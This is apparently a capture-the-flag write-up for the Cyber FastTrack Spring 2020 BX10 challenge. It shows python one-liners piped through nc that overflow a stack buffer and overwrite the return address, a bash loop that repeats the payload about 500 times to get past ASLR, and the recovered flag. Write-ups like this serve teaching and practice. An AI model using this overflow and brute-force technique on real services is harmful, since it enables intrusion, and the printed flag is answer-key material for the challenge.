




# Cyber FastTrack Spring 2020- BX10 Solution
In this challenge, we use buffer overflow to display the flag.\
BX10_1.PNG\

* This is the challenge for BX10.

BX10_2.PNG\

* if we put in a lot of inputs, such as 26 characters, it prints out `Segmentation fault EIP` error message and then a message of `Backtrace in main(), test call getFlag() at` an address.
* In my case, I have `Segmentation falut EIP 0x45454545` and `Backtrace in main(), test call getFlag() at 0x8fccd65`
* We need to change the EIP or the return address to 0x8fccd65 in order to execute the getFlag() function.

BX10_3.PNG\

* It was similar to [BM02](https://github.com/koc777/CyberFastTrack_Spring2020/tree/main/BM02). We send a payload to the server and see what it returns
* We tried 30 characters of 'E' and the desired return address.
```python
python -c "print 'E'*30+'\x65\xcd\xfc\x08'" | nc bx10.allyourbases.co 9015
```
* We tried 25 characters of 'E' and the desired return address.
```python
python -c "print 'E'*25+'\x65\xcd\xfc\x08'" | nc bx10.allyourbases.co 9015
```
* We used 20 characters of 'E' and then the return address. We finally changed the EIP address to 0x8fccd65.
```python
python -c "print 'E'*20+'\x65\xcd\xfc\x08'" | nc bx10.allyourbases.co 9015
```
* Notice that, the getFlag() address is different every time we send the payload to the server. It is because the developers have enabled ASLR which is common in software. However, it appears that the address space is limited because the getFlag() address would repeat if we send a large amount of payload to the server.

BX10_4.PNG\

* Write a bash script that repeat that process of sending the payload to the server and then output the result to a text file 500 times.
```python
#!/bin/bash
for i in {0..500}
do
  python -c "print 'E'*20+'\x65\xcd\xfc\x08'" | nc bx10.allyourbases.co 9015 >> OUTPUT.txt
done
```

BX10_5.PNG\

* Search for `FLAG:` and you will find the flag `postman_stack`